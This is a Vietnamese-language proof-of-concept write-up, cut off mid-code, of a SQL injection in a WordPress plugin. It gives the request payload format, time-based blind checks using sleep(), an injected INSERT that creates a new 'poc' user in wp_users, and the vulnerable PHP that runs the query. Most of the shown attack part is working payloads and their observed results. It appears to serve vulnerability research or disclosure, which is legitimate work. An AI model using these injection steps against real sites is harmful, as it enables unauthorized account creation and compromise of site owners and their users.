 Payload để exploit sẽ có dạng:

```
q=[query]&auth=%20&integ=[md5(query)]
```

### Kiểm tra lỗ hổng

Câu truy vấn sql để kiểm tra xem server có thực thi câu truy vấn mà ta gửi lên
```sql!
SELECT IF(1=2,sleep(5),sleep(0))
```

![image](https://hackmd.io/_uploads/HJx53IyGA.png)

=> Quan sát thấy server trả về response ngay lập tức

```sql!
SELECT IF(1=1,sleep(5),sleep(0))
```

![image](https://hackmd.io/_uploads/H1ikT8kGR.png)

=> Quan sát thấy server mất một lúc (khoảng 5 giây) mới trả về response

### Tạo một user Wordpress mới

Kiểm tra table `wp_users` hiện tại chỉ có 1 user `admin`

![image](https://hackmd.io/_uploads/rkdG1wkGR.png)

Câu truy vấn để tạo user mới vào table `wp_users`:

```sql!
INSERT INTO wp_users (user_login, user_pass, user_nicename, user_email, user_registered, user_status) VALUES ('poc', MD5('poc'), 'poc', 'poc@localhost.org', NOW(), 0)
```

![image](https://hackmd.io/_uploads/ryht1PJz0.png)

Kiểm tra lại database thấy đã có thêm user mới 

![image](https://hackmd.io/_uploads/rJ1LxP1zA.png)

### Kiểm tra user vừa tạo tồn tại trong table

Dựa theo source code:

```php=
$rows=$wpdb->get_results( $q);
$date=date("F j, Y, g:i a s");
$fname=md5($date);
header("Content-type: application/csv");
header("Content-Disposition: attachment; filename=$fname.csv");
header("Pragma: no-cache");
header("Expires: 0");

  echo "DATE,ACTION,DATA,KEYWORD \n";
foreach($rows as $row){
	
	$action=$row->action;
	if (stristr($action , 'New Comment Posted on :')){
			$action = 'Posted Comment';
		}elseif(stristr($action , 'approved')){
			$action = 'Approved Comment';
	}
	
	//format date
	$date=date('Y-n-j H:i:s',strtotime ($row->date));
```